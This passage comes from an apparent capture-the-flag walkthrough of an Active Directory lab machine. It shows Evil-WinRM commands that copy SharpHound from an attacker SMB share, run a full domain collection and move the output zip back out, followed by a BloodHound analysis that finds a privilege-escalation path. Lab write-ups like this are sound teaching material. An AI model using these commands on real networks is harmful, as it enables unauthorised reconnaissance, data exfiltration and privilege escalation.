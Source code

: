 ### Collect Bloodhound

Given this is an active directory environment, it’s time I ran [BloodHound](https://github.com/BloodHoundAD/BloodHound). I’ll copy `SharpHound.exe` into my SMB share and then onto MultiMaster:

```
*Evil-WinRM* PS C:\programdata> copy \\10.10.14.19\share\SharpHound.exe .

```

I’ll use `-c all` for all collections methods, and it creates a `.zip` output file:

```
*Evil-WinRM* PS C:\programdata> .\SharpHound.exe -c all
----------------------------------------------
Initializing SharpHound at 4:35 AM on 4/1/2020
----------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container                                                              

[+] Creating Schema map for domain MEGACORP.LOCAL using path CN=Schema,CN=Configuration,DC=MEGACORP,DC=LOCAL
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 19 MB RAM
Status: 94 objects finished (+94 ì)/s -- Using 27 MB RAM
Enumeration finished in 00:00:00.6367272
Compressing data to .\20200401043525_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 4:35 AM on 4/1/2020! Happy Graphing! 

```

I’ll move that back to my box:

```
*Evil-WinRM* PS C:\programdata> move 20200401043525_BloodHound.zip \\10.10.14.19\share\

```

### BloodHound Analysis

Loading that into Bloodhound, I’ll start by bringing up the three accounts I’ve owned and marking them as such (right click and select Mark as Owned). Then I’ll run the query “Shortest Paths to High Value Targets”, and it returns this:

[![image-20200401144617068](https://0xdfimages.gitlab.io/img/image-20200401144617068.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200401144617068.png)

It’s a bit of a mess, but in looking at it, two of the accounts I’ve owned are on there. tushikikatomo is there just because they can PSRemote. But sbauer has GenericWrite on jorden, who is a member of a high priority group, Server Operators. That seems like a valid path.
